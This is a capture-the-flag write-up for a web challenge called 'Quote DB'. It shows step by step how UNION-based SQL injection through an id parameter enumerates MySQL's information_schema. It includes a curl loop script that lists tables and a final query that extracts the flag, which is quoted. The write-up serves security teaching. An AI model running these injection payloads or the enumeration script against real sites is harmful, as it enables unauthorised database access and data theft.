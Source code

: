 # Challenge #14 - Quote DB

Category: `web`

## Story

>You don’t manage to disarm the guard, he is quicker than you are. He knocks you out, and when you wake up you’re inside a prison cell, but it doesn’t seem like you’re on a boat anymore, you must be inside the headquarters on the secret island! The cell is claustrophobic, with rusty iron bars and a bed of concrete.<br/><br/>
>In this challenge, you have to find the hidden flag. Good luck!

## Solution

This challenge comes with a URL: https://quotedb-web.2021.ctfcompetition.com/

Let's visit it and see what we're dealing with.

![The Quote DB homepage](quotedb_homepage.png)

The page source:

```html

<html>
  <head>
    <title>Quote DB</title>
    <link rel="stylesheet" href="style.css">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.1/dist/js/bootstrap.bundle.min.js" integrity="sha384-gtEjrD/SeCtmISkJkNUaaKMoLD0//ElJ19smozuHV6z3Iehds+3Ulb9Bn9Plx0x4" crossorigin="anonymous"></script>
  </head>

  <body>

<h1>Welcome to the amazing Quote DB</h1>
<div>
  <p>Here's the quote of the day for you: </p>
  <p class='quote'>
    "If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower  </p>
  <p>
    If you'd like to return to this quote, just
    <a href="?id=1">click here</a>.
  </p>
</div>

</body>
</html>
```

There's practically nothing going on here. There's a quote and an author. There's no way to enter new quotes. Trying various sub-pages like "/admin" or "/add_quote" and variations also turns up nothing. There's no JavaScript, either included or embedded in the page source (besides [Bootstrap](https://getbootstrap.com/docs/3.4/javascript/)).

One cool thing you can do is use a website or extension like [BuiltWith](https://builtwith.com/) or [Wappalyzer](https://www.wappalyzer.com/) to profile the website and see what technologies it's using. In this case though, all you'd find is that the website uses Ubuntu, Apache, GCP and some kind of CDN. No hint on whether there's a database or what kind if so.

### Looking for SQL injection

The only piece of interactivity is this:

```html
If you'd like to return to this quote, just <a href="?id=1">click here</a>.
```

That shows us that the page supports an `id` [query parameter](https://en.wikipedia.org/wiki/Query_string), like `/?id=2`. Maybe this can be exploited for [SQL injection](https://portswigger.net/web-security/sql-injection)?

Let's try a few things:

```
/?id=-1
Quote not found

/?id=1023821083902112038013122103810923821
Quote not found
```

No integer mis-parsing yet.

```
/?id=abcdefg
```

This is different. It responds with HTTP status 500 and an empty body. Maybe the id isn't properly escaped after all.

```
/?id=' OR 1=1
```

Same. Empty response and HTTP status 500. But no database dump, sadly.

```
/?id=1--
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Strangely, this appears to work, and returns quote 1.

What about this? *(I just guessed that the table is called "quotes")*

```
/?id=1 UNION SELECT * FROM quotes
If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Oh! This isn't sanitized away! However, it only returns the first quote, presumably because it selects the top result from the query. Let's verify this by using a nonexistent quote id but still selecting from the `quotes` table:

```
/?id=77 UNION SELECT * FROM quotes
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

It works! It returns the first quote, probably because the main query was something like this

```sql
SELECT *
FROM quotes
WHERE id = <id>
```

And we turned it into

```sql
SELECT *
FROM quotes
WHERE id = 77 UNION SELECT * FROM quotes
```

### Looking for the flag

Now what? We can already look up any row in the `quotes` table. Enumerating it only finds more quotes.

Maybe the flag is in another table. But how do we find out what tables are out there?

It's [possible](https://www.sqltutorial.org/sql-list-all-tables/) in some engines to directly query metadata tables, which tell us about the database and the tables it contains. We don't know exactly what DB this website is using, but let's try a few known metadata table names.

Before we do so though, we need to determine how many columns are in the quotes database. We can't just `SELECT *` from arbitrary tables or the `UNION` would fail as it can't match up the rows. This is pretty simple to do though - just try selecting static values and increasing the number until we get a success.

```
/?id=77 UNION SELECT 1
HTTP Status 500

/?id=77 UNION SELECT 1,2
HTTP Status 500

/?id=77 UNION SELECT 1,2,3
HTTP Status 200
```

That was quick. There are 3 columns, probably the id, quote and author.

Next, let's look for the existence of metadata tables:

```
/?id=77 UNION SELECT 1,2,3 FROM user_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM dba_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM all_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM information_schema.tables
HTTP Status 200
```

Score! That tells us we're dealing with [MySQL](https://www.mysql.com/). Now let's try to select some rows from it. You can Google and find [the docs](https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.0/en/information-schema-tables-table.html) which describe the available columns.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables
"ALL_PLUGINS" - SYSTEM VIEW
```

Okay, not too helpful. We only get the top row so we need some way of selecting a specific row.

Googling "mysql select specific row" leads to [this StackOverflow answer](https://stackoverflow.com/a/10457494) which explains that the `LIMIT` clause allows specifying an offset. Let's try it.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 2,1
"CHARACTER_SETS" - SYSTEM VIEW

/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 3,1
"CHECK_CONSTRAINTS" - SYSTEM VIEW
```

Cool! It works! Let's quickly enumerate all the tables (see [enumerate_tables.sh](enumerate_tables.sh)):

```sh
#!/usr/bin/env bash

for i in {1..1000}; do
  curl -s 'https://quotedb-web.2021.ctfcompetition.com/?id=77%20UNION%20SELECT%20TABLE_CATALOG,TABLE_NAME,TABLE_TYPE%20FROM%20information_schema.tables%20LIMIT%20'${i}',1' | grep '    "' | grep -o '".*"'
done
```

This takes a while, but it eventually finds us two key tables:

```sh
$ ./enumerate_tables.sh
...
"flag"
"quotes"
^C
```

### Extracting the flag

We don't know exactly how many columns are in the `flag` table but let's just try getting them all:

```
/?id=77 UNION SELECT * FROM flag
HTTP Status 500
```

Oops. Let's try adding more columns.

```
/?id=77 UNION SELECT *,0 FROM flag
HTTP Status 200
```

That succeeds and gives us the flag.

```
CTF{little_bobby_tables_we_call_him}
```








